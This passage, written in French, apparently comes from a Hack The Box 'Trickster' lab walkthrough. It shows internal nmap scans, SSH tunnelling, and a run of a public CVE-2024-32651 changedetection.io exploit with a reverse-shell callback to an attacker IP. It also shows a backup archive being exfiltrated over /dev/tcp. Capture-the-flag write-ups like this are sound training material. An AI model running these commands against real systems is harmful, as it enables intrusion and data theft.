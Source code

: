 ```
./nmap -sn 172.17.0.0/16
```

![Internal nmap scan](/images/HTB-Trickster/internal_nmap_scan.png)

Nous trouvons deux hôtes : `172.17.0.1` (notre addresse) et `172.17.0.2` que nous scannons.

```
./nmap -p- 172.17.0.2
```

Le port `5000` est ouvert.

![Open ports on 172.17.0.2](/images/HTB-Trickster/port_5000_open.png)

Avec un tunnel ssh, nous accédons au port.

```
ssh -L PORT_NUMBER:172.17.0.2:5000 james@trickster.htb
```

![SSH tunneling command](/images/HTB-Trickster/SSH_tunneling.png)

À l'adresse `http://localhost:5000/` nous trouvons une instance de [changedetection.io](https://changedetection.io/), un outil pour surveiller les changements dans les pages web. Nous nous connectons avec le mot de passe `james`, l'application utilise la version `v0.45.20`.

![changedetection version](/images/HTB-Trickster/changedetection_version.png)

### Shell en tant que root (Docker)

Après quelques recherches, nous découvrons le [CVE-2024-32651](https://www.hacktivesecurity.com/blog/2024/05/08/cve-2024-32651-server-side-template-injection-changedetection-io/) avec un PoC [ici](https://github.com/evgeni-semenov/CVE-2024-32651). Nous utilisons l'exploit et nous nous retrouvons dans un conteneur Docker avec le contrôle du compte root.

```
python3 cve-2024-32651.py --url http://localhost:5000/ --ip YOUR_IP --port 9001 --password alwaysandforever
```

![cve-2024-32651](/images/HTB-Trickster/CVE_2024_32651.png)

Dans `/datastore/Backups` nous trouvons des fichiers zip.

![backups archives](/images/HTB-Trickster/backup_archives.png)

Le conteneur ne dispose ni de `curl`, `wget`, ou `nc`. Nous envoyons donc les données à `/dev/tcp` pour le transfert de fichiers.

Sur la cible, nous lançons:

```
cat changedetection-backup-20240830194841.zip > /dev/tcp/YOUR_IP/PORT_NUMBER
```

Sur notre machine locale, nous exécutons:
